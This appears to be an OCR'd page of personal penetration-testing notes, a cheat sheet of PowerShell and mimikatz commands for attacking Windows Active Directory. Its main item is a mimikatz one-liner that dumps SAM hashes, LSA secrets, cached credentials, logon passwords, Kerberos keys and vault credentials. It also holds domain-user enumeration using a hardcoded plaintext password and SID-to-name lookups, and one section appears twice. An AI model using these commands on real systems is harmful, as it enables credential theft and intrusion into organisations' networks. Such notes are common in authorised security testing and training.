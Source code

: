 ```
iwr -UseDefaultCredentials http://web04
```
## Convert SID to Name
```shell
# mulitple
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName

# single
Convert-SidToName "S-1-5-21-1987370270-658905905-1781884369-553"

Convert-NameToSID "stephanie"
```
## mimikatz oneliner
```shell
.\mimikatz.exe "privilege::debug" "token::elevate" "log" "lsadump::sam /patch" "lsadump::sam" "sekurlsa::msv" "lsadump::secrets" "lsadump::lsa" "lsadump::lsa /patch" "lsadump::cache" "sekurlsa::logonpasswords full" "sekurlsa::ekeys" "sekurlsa::dpapi" "sekurlsa::credman" "vault::list" "vault::cred /patch" "exit"
```
## Atlernate Cred / Secure Cred
```shell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('User', $SecPassword)
Get-DomainUser -Credential $Cred
```
## Convert SID to Name
```shell
# mulitple
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName

# single
Convert-SidToName "S-1-5-21-1987370270-658905905-1781884369-553"

Convert-NameToSID "stephanie"
```
